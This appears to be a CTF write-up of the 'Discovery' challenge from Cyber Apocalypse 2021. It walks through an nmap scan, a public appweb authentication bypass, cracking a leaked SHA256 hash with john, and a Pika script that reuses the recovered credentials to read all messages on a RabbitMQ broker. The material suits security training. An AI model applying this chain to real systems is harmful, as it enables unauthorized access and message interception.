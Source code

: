 ```yaml
---
title: "Cyber Apocalypse 2021 4/5 - Discovery"
date: 2021-04-28T12:00:03+01:00
draft: false
author: "Thalium team"
tags:
  - CTF
  - Writeup
  - CyberApocalypse2021
---
```


One of the least solved challenges, yet probably not the most difficult one. It is a Hardware challenge, though it is significantly different from the other challenges of this category. The first thing to spot is that when starting the challenge machine, we have access to two network services:

* an HTTP server, requesting an authentication
* an AMQP broker, `rabbitmq`

<!--more-->

```sh
nmap -sT -p 30476,30042 -sV -sC -n -Pn 138.68.182.108
PORT      STATE SERVICE VERSION
30042/tcp open  http	?
...
30476/tcp open  amqp    RabbitMQ 3.8.2 (0-9)
| amqp-info: 
|   capabilities: 
|     publisher_confirms: YES
|     exchange_exchange_bindings: YES
|     basic.nack: YES
|     consumer_cancel_notify: YES
|     connection.blocked: YES
|     consumer_priorities: YES
|     authentication_failure_close: YES
|     per_consumer_qos: YES
|     direct_reply_to: YES
|   cluster_name: rabbit@hwcadiscovery-9130-689c6f9d5d-sbf2f
|   copyright: Copyright (c) 2007-2019 Pivotal Software, Inc.
|   information: Licensed under the MPL 1.1. Website: https://rabbitmq.com
|   platform: Erlang/OTP 22.2.7
|   product: RabbitMQ
|   version: 3.8.2
|   mechanisms: PLAIN AMQPLAIN
|_  locales: en_US
```

The web part is rather awkward, as it keeps returning `HTTP 401` asking for authentication credentials. The message bus part is not that friendly either, as it requires to authenticate too. Crawling has not helped a lot, and bruteforcing looks rather inefficient for a CTF. **So what else to do ?**

We picked an HTTP response and took a closer look at it:

```
...
WWW-Authenticate: realm="appweb_control_panel",...,opaque="799d5"...
...
```

Googling `appweb` is not the safest bet, but googling `opaque="799d5"` rapidly returns a [good candidate](https://www.programmersought.com/article/16096870398/).

Digging a bit, we find out two more things:

* an exploit, in Python, which is an authentication bypass, targeting embedthis appweb, which looks promising
* a github reference to the [opaque="799d5"](https://github.com/embedthis/appweb-gpl/blob/master/src/http/httpLib.c#L6063)

Running the exploit against the target works, and allows to access to the content associated with `/`:

```sh
Plane Control Panel
Panel which monitors the sensor readings and other controls.

List of sensors
Perimeter Detection
Radiation Control
Location Tracker
RabbitMQ Access
Exchange    Type    Username    Password Hash    Host    Routing Key    Queue
Direct    anthony_davis    89D9743B793B22AEB9A8142ABD59FDF4CDABFDD01796C31BE7587C114E0D37C1    /        
Base    Topic    leo    27BE4E31517E61D2BEF777B7293B7D8C73C14BD1B8F2839A7B8226CBEFF30E99    / 
```

Recalling that we have access to a rabbitmq instance, we can now turn those credentials to access to the AMQP broker, and possibly retrieve some messages.

Starting `john` yields `SHA256('winniethepooh') = 89D9743B793B22AEB9A8142ABD59FDF4CDABFDD01796C31BE7587C114E0D37C1` in a snap. The other hash remains uncracked until today.

We can verify that we can access to the AMQP broker using these credentials. The lock to the AMQP broker has gone.

The last step is to peek into the messages flow, using [Pika](https://pika.readthedocs.io/en/stable/) as an AMQP client implementation:

1. Connect and authenticate using `PlainCredentials`
2. Create a queue which will store messages we shall receive
3. Bind this queue to the exchange defined in the web leaked data, 'Base', and asking pass every routing key to this queue, using '#'.

The associated concepts can be found in [rabbitmq documentation associated with topics](https://www.rabbitmq.com/tutorials/tutorial-five-python.html).

The script below will yield the flag:

```python
#!/usr/bin/env python3

from pika import *
import time
from itertools import product

TARGET = '138.68.182.108'
PORT = 30476

def connect(username, password):
  creds = PlainCredentials(username, password)
  params = ConnectionParameters(TARGET, PORT, '/', creds)
  conn = BlockingConnection(params)
  return conn

conn = connect('anthony_davis', 'winniethepooh')
assert(conn)
print(conn)

channel = conn.channel()

result = channel.queue_declare('', exclusive=True)
queue_name = result.method.queue

channel.queue_bind(exchange='Base', queue=queue_name, routing_key='#')

def callback(ch, method, properties, body):
    print(" [x] Received %r" % body.decode())
    time.sleep(body.count(b'.'))
    print(" [x] Done")
    ch.basic_ack(delivery_tag=method.delivery_tag)

channel.basic_consume(queue=queue_name, on_message_callback=callback, auto_ack=True)

channel.start_consuming()
```

The flag shows up: `CHTB{1_h4v3_n0n4m3@_@}`.
